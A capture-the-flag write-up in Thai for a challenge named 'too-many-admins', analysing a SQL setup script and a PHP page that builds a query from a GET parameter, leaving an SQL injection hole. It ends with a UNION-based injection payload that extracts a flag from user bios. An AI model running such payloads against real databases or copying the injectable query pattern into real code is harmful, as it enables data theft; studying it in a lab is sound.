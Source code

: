 # too-many-admins

ข้อนี้เราจะได้ไฟล์โปรเจคมา

## วิเคราะห์ dump.sql
```sql
-- Create the 'users' table
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255),
    password VARCHAR(255),
    bio TEXT
);

-- Insert 500 random values into the 'users' table
DELIMITER //
CREATE PROCEDURE GenerateRandomUsers()
BEGIN
    DECLARE i INT DEFAULT 0;
    WHILE i < 500 DO
        IF i = {SOME_NUMBER} THEN
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                'REDACTED',
                'Flag{REDACTED}'
            );
        ELSE
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                MD5(CONCAT('admin',i,RAND())),
                CONCAT('Bio for admin', i)
            );
        END IF;
        SET i = i + 1;
    END WHILE;
END //
DELIMITER ;

-- Call the procedure to generate random users
CALL GenerateRandomUsers();

-- Drop the procedure (optional)
DROP PROCEDURE IF EXISTS GenerateRandomUsers;
```

วิเคราะห์คร่าวๆก็คือว่า มันจะสร้าง account มา 500 ตัว ซึ่งตัวที่ {SOME_NUMBER} จะมี flag อยู่ใน bio


## วิเคราะห์ index.php
```php
...
$userParam = $_GET['user'];
// Use prepared statement to prevent SQL injection
if ($userParam) {
    if ($userParam != "all") {
        $query = "SELECT username, password, bio FROM users where username = '$userParam' ";
    } else {
        $query = "SELECT username, password, bio FROM users ";
    }
    $result = $conn->query($query);
    // Display the result in a table
    echo "<table border='1'>";
    echo "<tr><th>S.no</th><th>Username</th><th>Password(MD5 hashes)</th></tr>";
    // Fetch and display the data
    $i = 0;
    while ($row = mysqli_fetch_row($result)) {
        echo "<tr><td>" . $i . "</td><td>" . $row[0] . "</td><td>" . $row[1] . "</td></tr>";
        $i++;
    }
    echo "</table>";
}
...
```
คร่าวๆคือเราจะพบว่ามันสามารถ sql injection ได้
~แจ๋วสิครับ ซึ่งแนวคิด inject ก็ง่ายๆ โค้ด sql เดิมๆมันจะ select username, password, bio และก็จะแสดงผล แค่ username, password ซึ่ง flag มันอยู่ที่ bio ของ account ใครสักคน
ผมก็เลย UNION account ที่มี flag อยู่ใน bio ด้วยคำสั่ง LIKE เข้ามา

payload ก็จะได้เป็นประมาณนี้

```sql
' UNION SELECT bio as username, 'b' as password, 'b' as bio FROM users WHERE bio LIKE 'flag{%';-- -
```


